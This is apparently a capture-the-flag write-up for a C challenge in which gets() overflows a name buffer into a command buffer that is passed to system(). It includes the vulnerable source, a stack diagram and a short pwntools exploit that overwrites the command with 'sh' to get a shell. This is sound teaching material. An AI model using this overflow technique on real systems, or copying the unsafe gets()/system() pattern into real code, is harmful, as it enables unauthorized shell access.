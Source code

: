 <hr width="90%" color="grey" size="4px" />

We are presented with a buffer overflow in the `name` variable.
```c
int main() {
    char command[80];
    char name[80];
    strcpy(command, "cowsay ");

    printf("your name: ");
    gets(name); // buffer overflow
    putchar(0xa);

    if (strchr(name, '\'')) // remove all single quotes
        *strchr(name, '\'') = 0;

    snprintf(command + 7, 80-7, "'hello %s!'", name);
    system(command);
}
```

The stack layout is as such:

```
┌───────────────┐
│               │
│               │
│    name[80]   │
│               │
│               │
┼───────────────┤
│               │
│               │
│  command[80]  │
│               │
│               │
└───────────────┘
```

By writing 80 characters to fill the `name` buffer, whatever we add subsequently will overflow into the `command` buffer to be executed.

As such we can send 80 "A" followed by "sh" to run the `system("sh")` and give us a shell.

```py
from pwn import *

p = process("./challenge")

p.sendline(b"A"*80 + b"sh")

p.interactive()
```

<br>
